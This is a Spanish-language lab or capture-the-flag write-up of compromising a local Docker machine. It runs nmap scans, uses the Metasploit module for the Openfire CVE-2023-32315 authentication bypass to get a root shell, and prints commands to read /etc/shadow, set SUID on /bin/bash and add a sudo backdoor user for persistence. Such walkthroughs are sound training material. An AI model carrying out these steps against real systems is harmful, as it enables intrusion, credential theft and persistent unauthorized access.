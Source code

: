 
![](img/Pasted%20image%2020241208220722.png#center)



Empezaremos realizando un ping a la máquina para verificar su correcto funcionamiento, al hacerlo vemos que tiene un TTL de 64, lo que significa que la máquina objetivo usa un sistema operativo Linux.

![](img/Pasted%20image%2020241206213133.png#center)

Como vemos, la máquina funciona correctamente y podemos empezar con el proceso de enumeración de la misma, vamos a ello.

# Enumeración

Lo primero que haremos para enumerar esta máquina será realizar un escaneo básico de puertos para identificar cuáles están abiertos.
```
nmap -p- --open -sS --min-rate 5000 -n -Pn 172.17.0.2
```
![](img/Pasted%20image%2020241206213305.png#center)


Vemos bastantes puertos abiertos, vamos a realizar un escaneo más exhaustivo para tratar de enumerar los servicios así como para lanzar ciertos scripts básicos de reconocimiento. En principio vamos a centrarnos en los `puertos 22,7070,7777 y 9090` ya que parecen ser los más importantes.

```
nmap -p 22,7070,7777,9090 -sVC --min-rate 5000 -n -Pn 172.17.0.2
```
![](img/Pasted%20image%2020241206213527.png)
![](img/Pasted%20image%2020241206213638.png)


Podemos ver que tanto en el puerto 7070 como en el 9090 tenemos disponibles dos servicios web, vamos a inspeccionar los mismos manualmente.


#### Puerto 7070
![](img/Pasted%20image%2020241206213833.png)


#### Puerto 9090
![](img/Pasted%20image%2020241206213857.png)
En el puerto 9090 se nos muestra un panel de login de Openfire que nos proporciona la versión del mismo, vamos a probar a ingresar con credenciales por defecto y vamos a realizar una investigación sobre esta versión en concreto para ver si hay alguna vulnerabilidad conocida que podamos explotar.


![](img/Pasted%20image%2020241206214307.png)

Encontramos un CVE que se encuentra en esta versión en concreto y haciendo una búsqueda vemos que Metasploit lo tiene incluido en su base de datos por lo que vamos a tratar de explotarlo ya que nos permitiría la ejecución remota de código en caso de funcionar correctamente.
![](img/Pasted%20image%2020241206214554.png)




# Explotación

### Usamos el módulo
```
use 4
# ó
use exploit/multi/http/openfire_auth_bypass_rce_cve_2023_32315
```
![](img/Pasted%20image%2020241206214905.png)


### Mostramos las opciones
```
show options
```
![](img/Pasted%20image%2020241206214955.png)




### Configuramos las opciones
- Tenemos que configurar:
	- RHOSTS: Es la IP de la máquina victima
	- LHOST: La IP de nuestra máquina atacante
	- RPORT: Verificar que está correcto, en este caso, está bien configurado
```
set RHOSTS 172.17.0.2
set LHOST 172.17.0.1           # también se puede configurar set LHOST docker0
```
![](img/Pasted%20image%2020241206215234.png)



### Comprobamos las configuraciones
```
show options
```
![](img/Pasted%20image%2020241206215317.png)



### Ejecutamos el exploit
```
exploit
```
![](img/Pasted%20image%2020241206215508.png)

 Parece que ha funcionado, vamos a interactuar con la sesión que nos acaba de crear. Recibimos una shell como el usuario `root` por lo que no tendremos que realizar ningún paso adicional ya que tenemos el sistema comprometido por completo. Le otorgaremos permisos `SUID` a la `bash`.



### Obtener bash
```
/bin/bash -i
```
![](img/Pasted%20image%2020241206215710.png)



### Contenido `shadow`
```
cat /etc/shadow
```
![](img/Pasted%20image%2020241206220249.png)


#### Permisos SUID a la bash
```
chmod u+s /bin/bash
ls -la /bin/bash
```
![](img/Pasted%20image%2020241206221348.png#center)



<h3><center>Persistencia</center></h3>

Empezaremos creando un usuario nuevo y luego lo añadiremos al grupo sudo. De cualquier forma también le otorgaremos permisos SUID a la bash.


#### Creamos usuario
```
useradd -m -s /bin/bash jonay
```
![](img/Pasted%20image%2020241206220441.png#center)


#### Contraseña al usuario
```
passwd jonay
```
![](img/Pasted%20image%2020241206220558.png#center)


#### Agregar al grupo
```
usermod -aG sudo jonay 
```
![](img/Pasted%20image%2020241206220646.png#center)

#### Comprobamos que se creo
```
cat /etc/shadow
```
![](img/Pasted%20image%2020241206220802.png)
>ℹ
>	*Vemos que el usuario se ha creado correctamente y que puede usar sudo sin restricciones, vamos a ejecutar una shell como root tanto con sudo como con los permisos SUID que le hemos otorgado a la shell para demostrar la persistencia obtenida.*



Una vez hecho esto vamos a tratar de iniciar sesión por SSH con nuestro nuevo usuario creado. Vamos a la terminal de nuestro KALI




<h3><center>Iniciar Sesión SSH</center></h3>
```
ssh jonay@172.17.0.2
```
![](img/Pasted%20image%2020241206221709.png)


### Elevar privilegios
Utilizamos el siguiente comando para comprobar si podemos ejecutar cualquier comando como usuario `root
```
sudo -l
```
![](img/Pasted%20image%2020241206221830.png)


Vemos que podemos ejecutar cualquier comando como usuarios `root`, como antes configuramos la `bash`, para que tenga permisos `SUID`, vamos a ejecutar como usuario `root` la `/bin/bash`
```
sudo /bin/bah
```
![](img/Pasted%20image%2020241206222030.png#center)

Somos el usuario `root`. Tenemos persistencia total en la máquina. Sin más que decir, tenemos el sistema comprometido por completo y hemos conseguido obtener una gran persistencia por lo que podemos dar por concluida la máquina
